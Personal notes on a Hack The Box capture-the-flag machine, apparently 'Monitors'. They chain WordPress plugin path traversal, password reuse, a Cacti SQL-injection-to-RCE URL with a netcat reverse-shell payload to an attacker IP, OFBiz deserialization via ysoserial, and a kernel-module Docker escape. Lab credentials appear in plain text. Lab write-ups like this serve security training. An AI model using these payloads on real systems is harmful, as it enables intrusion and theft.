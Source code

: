 ### writeups
* https://0xdf.gitlab.io/2021/10/09/htb-monitors.html

### wpscan then searchsploit the plugin version
```url
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
```

View Page Source would make readability better.

There’s not a ton I can do with the second remote include, as PHP is calling `file_get_contents`, so even if I pass in PHP code, it won’t be executed. If this were a Windows server, I could try to get something over SMB and collect the NetNTLMv2 challenge.

### Enum
With access to the file system, I’ll look at various files that might contain useful information. I tried to get `/var/www/html/wp-config.php` to get the DB password and username, but nothing came back. That could be the wrong directory.

To find where on the file system the websites are rooted, I’ll look into the Apache sites-enabled. The default is `/etc/apache2/sites-enabled/000-default.conf`, and that works: https://www.thegeekdiary.com/how-to-configure-apache-virtual-host-on-ubuntu/

```url
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?
url=/../../../../etc/apache2/sites-enabled/000-default.conf

http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?
url=/../../../../etc/apache2/sites-enabled/monitors.htb.conf


    Re-check for wordpress configs in /var/www/wordpress
    Enumerate cacti-admin.monitors.htb


http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?
url=/../../../../var/www/wordpress/wp-config.php
```

Attempting to authenticate to the WordPress login fails with both `wpadmin:BestAdministrator@2020!` and `admin:BestAdministrator@2020!`. Going back to the virtual host configuration files we notice the `cacti-admin.monitors.htb` subdomain.

Password reuse here, `BestAdministrator@2020!` login as admin.

### Enum Cacti after login
```bash
searchsploit Cacti

searchsploit -m php/webapps/49810.py
```

or google `Cacti 1.2.12 CVE` to get it 
* https://github.com/advisories/GHSA-rwpv-9gq4-x5g3
* https://github.com/Cacti/cacti/issues/3622
* https://packetstormsecurity.com/files/162384/Cacti-1.2.12-SQL-Injection-Remote-Code-Execution.html

### Manual
```txt url
http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;--+-

http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='ping+-c+3+10.10.16.5;'+where+name='path_php_binary';--+-
```

When visiting `/cacti/host.php?action=reindex` we notice that our payload is not being triggered but `tcpdump` is getting hit with three more ICMP requests, there seems to be some on site caching taking place so we log out, log back in, replace the cookie in BurpSuite with our new cookie, fire the payload again then visit `/cacti/host.php?action=reindex`.

The hardest part of getting a shell for me was learning a quirk about the RCE and how the `host.php` trigger worked. I was set up with the request to do the SQL injection in one Burp Repeater window, and the trigger via host.php in another. I noticed that even after I changed the payload, I was still getting pings. It seems that no matter what the DB says, the actually binary will would only update once per session. So once I visited `host.php` to trigger, if I wanted to trigger again, I needed to log out and back in, and then it would work.

Tricky thing here is that people might even use the wrong payload at the first try. It'll make it even harder to realize how `host.php` works once per session/cookie.

```txt url
http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.5%20443%20%3E%2Ftmp%2Ff;'+where+name='path_php_binary';--+-
```

It worked as same as the searchploit python script.

### Lateral to Marcus
```bash
www-data@monitors:/home/marcus$ cat /etc/systemd/system/cacti-backup.service 
[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target
www-data@monitors:/home/marcus$ cat /home/marcus/.backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

```bash
www-data@monitors:/home/marcus$ su marcus -
Password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
marcus@monitors:~$ cat user.txt 
b9d0a72edc1b
```

### Privilege Escalation to Root 
```bash
marcus@monitors:~$ cat note.txt 
TODO:

Disable phpinfo in php.ini              - DONE
Update docker image for production use  - 

marcus@monitors:~$ netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN

ps -aux
root       2145  0.0  0.1 554520  4080 ?        Sl   00:53   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```

`-k, --no-tls-validation`               Skip TLS certificate verification

```bash
❯ feroxbuster -u https://127.0.0.1:8443 -k --wordlist=/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --depth 1 -t 50    
```

### Apache OFBiz XML-RPC Java Deserialization (CVE-2020-9496) to get root in docker container
* https://packetstormsecurity.com/files/161769/Apache-OFBiz-XML-RPC-Java-Deserialization.html
* https://github.com/A1vinSmith/vulhub/tree/master/ofbiz/CVE-2020-9496

The biggest issue is fixing the Java version.

```bash
❯ java -jar ysoserial-all.jar CommonsBeanutils1 'wget 10.10.14.7' | base64 -w 0
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x4015e7ec) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x4015e7ec
        at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
        at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
❯ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.6 2023-01-17
OpenJDK Runtime Environment (build 17.0.6+10-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.6+10-Debian-1, mixed mode, sharing)
❯ update-java-alternatives --list
java-1.11.0-openjdk-amd64      1111       /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64      1711       /usr/lib/jvm/java-1.17.0-openjdk-amd64
❯ sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64
```

### Docker Escape via CAP_SYS_MODULE
* https://unix.stackexchange.com/questions/125757/make-complains-missing-separator-did-you-mean-tab
* https://stackoverflow.com/questions/16931770/makefile4-missing-separator-stop

sublime has bug for using `tab`. Try other text editors instead.

```bash
❯ cat -e -t -v Makefile
obj-m +=reverse-shell.o$
all:$
^Imake -C /lib/modules/4.15.0-151-generic/build M=$(pwd) modules$
clean:$
^Imake -C /lib/modules/4.15.0-151-generic/build M=$(pwd) clean$
```

Also ther is no error of `scripts/basic/fixdep` anymore that offical writeup addressed.

### Cleanup
Don't forget to reset JAVA version